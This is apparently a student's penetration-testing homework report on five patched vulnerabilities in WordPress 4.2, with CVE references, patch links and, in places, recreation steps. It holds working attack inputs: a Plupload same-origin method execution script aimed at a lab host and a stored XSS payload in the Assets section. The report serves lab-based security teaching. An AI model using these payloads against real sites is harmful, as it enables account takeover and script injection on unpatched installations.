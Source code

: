 # Project 7 - WordPress Pen Testing

Time spent: 17 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. CSRF

- [ ] Summary: 
  - Vulnerability types: CSRF
  - Tested in version: 4.2
  - Fixed in version: 4.2.23
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 1](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/1st%20vulnerability.gif)
- [ ] Steps to recreate: 
  - Log in as Administrator
  - Post a comment to check it is taking the admin's comment
  - Submit a malicious form that goes into /wp-comments-post.php hosted on github
  - The comment "I made a comment" will be posted after going to the github link which is submitting the form (go below to Assets to see the malicious form)
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/changeset/44842)
  - [Link 2](https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b)
  
### 2. SOME (CVE-2016-4566)

- [ ] Summary: 
  - Vulnerability types: Pupload Same Origin Method Execution (SOME)
  - Tested in version: 4.2
  - Fixed in version: 4.2.8
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 2](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/2nd%20vulnerability.gif)
- [ ] Steps to recreate: 
  - Comment on a post as admin
  - Insert the following malicious code followed by a button and a script
  
  `<button onclick="fire()">Click</button>
   <script>
    function fire() {
    open('javascript:setTimeout("location=\'http://wpdistillery.vm/wp-includes/js/plupload/plupload.flash.swf?                  target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'",2000)');
    setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
      }
    </script>`
    
- [ ] Affected source code:
  - [Link 1](https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
  - [Link 2](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)

### 3. XSS (CVE-2015-3440)

- [ ] Summary: 
  - Vulnerability types: Unauthenticated Stored Cross-Site Scripting (XSS)
  - Tested in version: 4.2
  - Fixed in version: 4.2.1
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 3](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/3rd%20vulnerability.gif)
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://www.exploit-db.com/exploits/36844)
  - [Link 2](https://klikki.fi/wordpress-4-2-core-stored-xss/)

### 4. XSS (CVE-2015-5734)

- [ ] Summary: 
  - Vulnerability types: Legacy Theme Preview Cross-Site Scripting (XSS)
  - Tested in version: 4.2
  - Fixed in version: 4.2.4
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 4](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/4th%20vulnerability.gif)
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/changeset/33549)
  - [Link 2](https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html)

### 5. XSS (CVE-2016-1564)

- [ ] Summary: 
  - Vulnerability types: Authenticated Cross-Site Scripting (XSS)
  - Tested in version: 4.2
  - Fixed in version: 4.2.6
- [ ] GIF Walkthrough: 
 ![Walkthrough exploit 5](https://github.com/sanjanabintaazad/codepath_homework/blob/wordpress_pen_testing/5th%20vulnerability.gif)
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87) 

## Assets

- 1st Vulnerability(Malicious Form):

https://github.com/sanjanabintaazad/hello-world/blob/main/index.html
- 3rd Vulnerability:

`<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with
[ScreenToGif](https://www.screentogif.com/)

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
